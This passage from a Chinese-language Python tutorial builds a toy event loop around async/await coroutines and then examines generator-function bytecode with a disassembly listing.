    t.run()
    print(t.result)

# 当前形式与async/await代表的协程一致了
# 做如下改造可以升级为原生协程，native core
# yield from 替换为 await
# YieldFromAble 替换为 Awaitable
# YieldFromAble.__iter__替换为__await__方法
# 另外，生成器函数会被升级为协程函数，Python语法上要求所有协程函数必须标明async，且await只能在协程函数中使用
# 由于需要让出线程则需要，Task中不在使用while循环


```


## 6. 事件循环

```python
import collections
import heapq
import time


async def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    res = await sub_task_1()
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")
    return res


async def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    res = await sub_task_11()
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


async def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    await Awaitable((time.sleep, 1))
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res


class Awaitable:
    def __init__(self, obj):
        self.obj = obj

    def __await__(self):
        yield self


class Task:
    def __init__(self, coroutine):
        self.coroutine = coroutine
        self.__running = False
        self.__result = None

    def run(self):
        if not self.__running:
            self.__running = True
        try:
            _y = self.coroutine.send(None)
        except StopIteration as e:
            self.__result = e.value
        else:
            assert isinstance(_y, Awaitable)
            func, args = _y.obj
            func(args)

    @property
    def result(self):
        if not self.__running:
            return self.__result


class EventLoop:
    def __init__(self):
        self.__ready = collections.deque()
        self.__scheduled = []
        self.__running = True

    def call(self, callback, *args):
        self.__ready.append((callback, args))

    def call_later(self, delay, callback, *args):
        heapq.heappush(self.__scheduled, (time.time() + delay, callback, args))

    def stop(self):
        self.__running = False

    def run_forever(self):
        while self.__running:
            self.run_once()

    def run_once(self):
        now = time.time()
        while self.__scheduled:
            t, cb, args = self.__scheduled[0]
            if t <= now:
                self.__ready.append((cb, args))
                heapq.heappop(self.__scheduled)
            else:
                break

        # 由于可能会有其他线程操作该就绪队列，所以通过计数来访问？？？
        num = len(self.__ready)
        for _ in range(num):
            cb, args = self.__ready.popleft()
            cb(*args)


if __name__ == '__main__':
    el = EventLoop()
    t = Task(task())
    el.call(t.run)
    el.call(time.sleep, 1)
    el.call(t.run)
    el.call_later(2, el.stop)
    el.run_forever()

```


完善事件循环

```python
import collections
import heapq
import itertools
import random
import time


async def task():
    print(f"enter {task.__name__}")
    ...  # 执行某些操作
    res = await sub_task_1()
    ...  # 执行某些操作
    print(f"exit {task.__name__} with {res}")
    return res


async def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    res = await sub_task_11()
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


async def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    await Awaitable(random.Random().random())
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res


class Awaitable:
    def __init__(self, obj):
        self.obj = obj

    def __await__(self):
        yield self


counter = itertools.count(1)

class Task:
    def __init__(self, coroutine):
        self.coroutine = coroutine
        self.__running = False
        self.__result = None
        self.tid = next(counter)

    def run(self):
        print(f"task {self.tid}".center(50, "-"))
        if not self.__running:
            self.__running = True
        try:
            _y = self.coroutine.send(None)
        except StopIteration as e:
            self.__result = e.value
        else:
            assert isinstance(_y, Awaitable)
            sleep_time = _y.obj
            el.call_later(sleep_time, self.run)
        print("".center(50, "-"))

    @property
    def result(self):
        if not self.__running:
            return self.__result


class EventLoop:
    def __init__(self):
        self.__ready = collections.deque()
        self.__scheduled = []
        self.__running = True

    def call(self, callback, *args):
        self.__ready.append((callback, args))

    def call_later(self, delay, callback, *args):
        heapq.heappush(self.__scheduled, (time.time() + delay, callback, args))

    def stop(self):
        self.__running = False

    def run_forever(self):
        while self.__running:
            self.run_once()

    def run_once(self):
        now = time.time()
        while self.__scheduled:
            t, cb, args = self.__scheduled[0]
            if t <= now:
                self.__ready.append((cb, args))
                heapq.heappop(self.__scheduled)
            else:
                break

        # 由于可能会有其他线程操作该就绪队列，所以通过计数来访问？？？
        num = len(self.__ready)
        for _ in range(num):
            cb, args = self.__ready.popleft()
            cb(*args)


if __name__ == '__main__':
    el = EventLoop()
    for _ in range(10):
        t = Task(task())
        el.call(t.run)
    el.call_later(2, el.stop)
    el.run_forever()

```


剖析生成器函数


```python
import random


def gen_a_random_num(using_yield):
    num = random.random()
    if using_yield:
        yield num
    return num

g = gen_a_random_num(True)

print(g)

```


```
  0           0 RESUME                   0

  1           2 LOAD_CONST               0 (0)
              4 LOAD_CONST               1 (None)
              6 IMPORT_NAME              0 (random)
              8 STORE_NAME               0 (random)

  4          10 LOAD_CONST               2 (<code object gen_a_random_num at 0x0000015E546CE560, file ".\dddd.py", line 4>)
             12 MAKE_FUNCTION            0
             14 STORE_NAME               1 (gen_a_random_num)

 10          16 PUSH_NULL
             18 LOAD_NAME                1 (gen_a_random_num)
             20 LOAD_CONST               3 (True)
             22 CALL                     1
             30 STORE_NAME               2 (g)

 12          32 PUSH_NULL
             34 LOAD_NAME                3 (print)
             36 LOAD_NAME                2 (g)
             38 CALL                     1
             46 POP_TOP
             48 RETURN_CONST             1 (None)

Disassembly of <code object gen_a_random_num at 0x0000015E546CE560, file ".\dddd.py", line 4>:
  4           0 RETURN_GENERATOR
              2 POP_TOP
              4 RESUME                   0

  5           6 LOAD_GLOBAL              1 (NULL + random)
             16 LOAD_ATTR                0 (random)
             36 CALL                     0
             44 STORE_FAST               1 (num)

  6          46 LOAD_FAST                0 (using_yield)
             48 POP_JUMP_IF_FALSE        4 (to 58)

  7          50 LOAD_FAST                1 (num)
             52 YIELD_VALUE              1
             54 RESUME                   1
             56 POP_TOP

  8     >>   58 LOAD_FAST                1 (num)
             60 RETURN_VALUE
        >>   62 CALL_INTRINSIC_1         3 (INTRINSIC_STOPITERATION_ERROR)
             64 RERAISE                  1
ExceptionTable:
  4 to 60 -> 62 [0] lasti

```













在 async/await 新语法出来之前，Python 的协程就是生成器，两者没有语法上的差异，有的只是使用方式的不同。
用它来迭代数据，就是普通生成器；用来迭代执行代码，就是协程。

基于生成器的协程
generator-based coroutine



